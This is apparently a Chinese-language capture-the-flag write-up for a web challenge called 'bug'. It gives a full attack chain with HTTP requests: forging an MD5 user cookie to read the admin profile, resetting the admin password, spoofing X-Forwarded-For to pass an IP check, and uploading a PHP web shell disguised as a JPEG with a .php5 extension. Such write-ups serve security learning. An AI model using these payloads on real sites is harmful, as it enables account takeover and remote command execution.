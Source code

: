 # bug

## 解题思路：

- 打开网页，发现是一个用户登录页面，仍然先尝试能不能SQL注入： `' or 1=1 #` ，服务器无回复，说明不太行，但注意到get传参为 ： `module=login` ；同时在输入框下方还有 `register` 和 `findpwd` 两个选项，注册功能要求填写用户名，生日，密码以及地址，找回密码功能要求填写用户名，生日，以及地址。

- 先去注册，在注册页面同样尝试能否SQL注入，仍然不行，但注意到get传参变为 `module=register` 。

- 注册完成，登录进去后发现有五个选项卡，分别对应五个get参数： 没有module， `module=admin` , `module=member&uid=5` , `module=logout` 。

    其中 `module=admin` 选项卡要求我们具有管理员权限才可以浏览，  `module=member&uid=5` 显示了我们的注册信息（UID，用户名，生日，以及地址），这时考虑到：我们是否可以用admin的注册信息来修改admin的密码呢？

- 利用burp suite抓包，发现我们点击 `module=member&uid=5` 时，我们的包内对应内容如下：

    ```http
    GET /index.php?module=index&do=member&uid=5 HTTP/1.1
    ...
    Cookie: PHPSESSID=ho3cb5vcv50ac7vojv151relp7; user=5b3cec1e8447de26979d3b8250ff0b4d
    ```

    一开始我也不知道这个要怎么用，但是看了大佬的write up之后知道了，这个user其实是 `uid:用户名` 的组合体经过md5加密后的产物，那我们就随便在网上找一个md5加密网站，给他加密一下，再改一下uid：

    ```http
    GET /index.php?module=index&do=member&uid=1 HTTP/1.1
    ...
    Cookie: PHPSESSID=ho3cb5vcv50ac7vojv151relp7; user=4b9987ccafacb8d8fc08d22bbca797ba
    ```

    发给服务器，发现服务器真的回应了管理员的 `module=member` 界面：

    ```html
        <div class="wbox">
        <div class="switchTab clearfix">
            <a href="index.php" id="home">Home</a>
            <a href="index.php?module=admin">Manage</a>
            <a href="index.php?module=index&do=member&uid=5" id="member">Personal</a>
            <a href="index.php?module=index&do=newpwd" id="newpwd">Change Pwd</a>
            <a href="index.php?module=index&do=logout">Logout</a>
        </div>
        <div class="container">
            <table cellspacing="0" class="profileTable" cellpadding="0" border="0">
        <tr><td width="70">UID</td>
            <td>1</td>
        </tr>
        <tr><td width="70">Username</td>
            <td>admin</td>
        </tr>
        <tr><td width="70">Birthday</td>
            <td>1993/01/01</td>
        </tr>
        <tr><td width="70">Address</td>
            <td>福建省福州市闽侯县</td>
        </tr>
        </table>
            </div>
    </div>
    ```

    东西全拿到了，我们现在就回到 `findpwd` 页面去试试改管理员的密码，输入全部信息后，服务器成功让我们改密码了，我们直接改成 `123456`

    之后用 `admin` 和 `123456` 登录，成功，直奔 `module=admin` ，发现它说 `IP not allowed` ，那简单，抓包改成127.0.0.1：

    - `X-Forwarded-For: 127.0.0.1`

    服务器回应：

    ```html
    <div class="wbox">
	<div class="container">
		<p>Where Is The Flag?</p>
		<p style="font-size:100px">: )</p>
	</div>
    </div>
    <!-- index.php?module=filemanage&do=???-->
    </body>
    </html>
    ```

    告诉我们flag就在 `<!-- index.php?module=filemanage&do=???-->` 这个命令里

    这里我实在没想到要 `upload` ，只好看别人的writeup才知道。

        这里也是一个注意点：filemnage总共也就这几种：edit,dir,list,upload,delete ，多试试总能试出来的。

    访问 `index.php?module=filemanage&do=upload` ，发现是上传文件，这里的上传很恶心，一句话木马里包含了 `<?php ?> ` 的一概拦截，不让我们的上传文件里出现这个，而且要求我们必须上传格式为图片。

    看了大佬的笔记，发现可以用 php 文档中的 tag<scriptlanguage=”php”></script> 绕过 同时修改文件拓展 类型 和标签：

    ```http
    -----------------------------18467633426500
    Content-Disposition: form-data; name="upfile"; filename="index.php5"
    Content-Type: image/jpeg

    <script language="php">system($_GET[a]);</script>
    -----------------------------18467633426500--
    ```

    一个是伪造了 `Content-Type: image/jpeg` ，一个是伪造了 `"index.php5"` ，最后就是上传一句话木马 `<script language="php">system($_GET[a]);</script>` ，终于拿到了flag。